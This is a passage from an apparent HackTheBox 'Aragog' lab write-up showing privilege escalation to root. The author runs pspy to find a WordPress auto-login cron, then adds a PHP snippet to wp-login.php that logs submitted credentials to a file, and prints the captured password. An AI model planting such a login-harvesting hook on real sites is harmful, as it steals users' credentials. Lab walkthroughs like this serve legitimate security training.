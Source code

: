 Now, let's get root

# Florian --> Root

We see a WordPress page running on local host

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:34:42.png)

We add aragog.htb on our /etc/hosts to get it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:37:08.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:36:56.png)

We could try a lot of stuff here. Get the credentials to access the mysql instance and try to crack the hashes. But nothing will work, the most important part here is that we can see a post which indicates what we must do next

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:38:15.png)

Seems that we have a cron or something running on the box.

For this I'll use [pspy](https://github.com/DominicBreuker/pspy) we download a [Release](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0)

And download it to the Aragog box using Python SimpleHTTPServer

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:40:56.png)

And execute it, we wait almost five minutes and something interesing pop up on our screen

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:42:13.png)

Seems that it's running a auto login on wp-login.php. It indicates that we need to intercept the request and get the credentials when it attempts to login

Since the login is a POST request to wp-login.php file in WordPress, I will modify that page so that it dumps any credentials submitted to it to file, by adding the lines under <?php. I got this part from 0xdf.

```php
<?php
$rrr = print_r($_REQUEST, true);
$fff = fopen("/dev/shm/0x4rt3mis", "a");
fwrite($fff, $rrr);
fclose($fff);
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:46:49.png)

I wait the cron runs again

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-20-HackTheBox-Aragog/2021-09-20-HackTheBox-Aragog%2009:49:07.png)

And got the creds `!KRgYs(JFO!&MTr)lf`
